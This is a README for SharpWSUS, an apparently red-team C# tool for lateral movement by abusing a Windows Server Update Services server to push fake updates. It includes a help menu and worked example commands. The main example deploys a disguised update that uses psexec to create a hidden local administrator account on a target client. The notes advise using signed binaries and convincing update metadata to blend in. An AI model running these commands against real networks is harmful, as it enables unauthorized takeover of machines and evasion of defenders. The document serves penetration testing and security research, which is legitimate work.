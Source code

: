 # SharpWSUS

SharpWSUS is a CSharp tool for lateral movement through WSUS. There is a corresponding blog on the Nettitude labs website (https://labs.nettitude.com/) which has more detailed information about the tooling, use case and detection.

## Credits 

Massive credit to the below resources that really did 90% of this for me. This tool is just an enhancement of the below for C2 reliability and flexibility.

* https://github.com/AlsidOfficial/WSUSpendu - powershell tool for abusing WSUS
* https://github.com/ThunderGunExpress/Thunder_Woosus - Csharp tool for abusing WSUS

## Help Menu

```
 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team


Commands listed below have optional parameters in <>.

Locate the WSUS server:
    SharpWSUS.exe locate

Inspect the WSUS server, enumerating clients, servers and existing groups:
    SharpWSUS.exe inspect

Create an update (NOTE: The payload has to be a windows signed binary):
    SharpWSUS.exe create /payload:[File location] /args:[Args for payload] </title:[Update title] /date:[YYYY-MM-DD] /kb:[KB on update] /rating:[Rating of update] /msrc:[MSRC] /description:[description] /url:[url]>

Approve an update:
    SharpWSUS.exe approve /updateid:[UpdateGUID] /computername:[Computer to target] </groupname:[Group for computer to be added too] /approver:[Name of approver]>

Check status of an update:
    SharpWSUS.exe check /updateid:[UpdateGUID] /computername:[Target FQDN]

Delete update and clean up groups added:
    SharpWSUS.exe delete /updateid:[UpdateGUID] /computername:[Target FQDN] </groupname:[GroupName] /keepgroup>
```

## Example Usage

```
sharpwsus locate

sharpwsus inspect

sharpwsus create /payload:"C:\Users\ben\Documents\pk\psexec.exe" /args:"-accepteula -s -d cmd.exe /c \\"net user phil Password123! /add && net localgroup administrators phil /add\\"" /title:"Great UpdateC21" /date:2021-10-03 /kb:500123 /rating:Important /description:"Really important update" /url:"https://google.com"

sharpwsus approve /updateid:9e21a26a-1cbe-4145-934e-d8395acba567 /computername:win10-client10.blorebank.local /groupname:"Awesome Group C2"

sharpwsus check /updateid:9e21a26a-1cbe-4145-934e-d8395acba567 /computername:win10-client10.blorebank.local

sharpwsus delete /updateid:9e21a26a-1cbe-4145-934e-d8395acba567 /computername:win10-client10.blorebank.local /groupname:"Awesome Group C2"
```

## Notes

* Binary has to be windows signed, so psexec, msiexec, msbuild etc could be useful for lateral movement.
* The metadata on the create command is not needed, but is useful for blending in to the environment.
* If testing in a lab the first is usually quick, then each subsequent update will take a couple hours (this is due to how windows evaluates whether an update is installed already or not)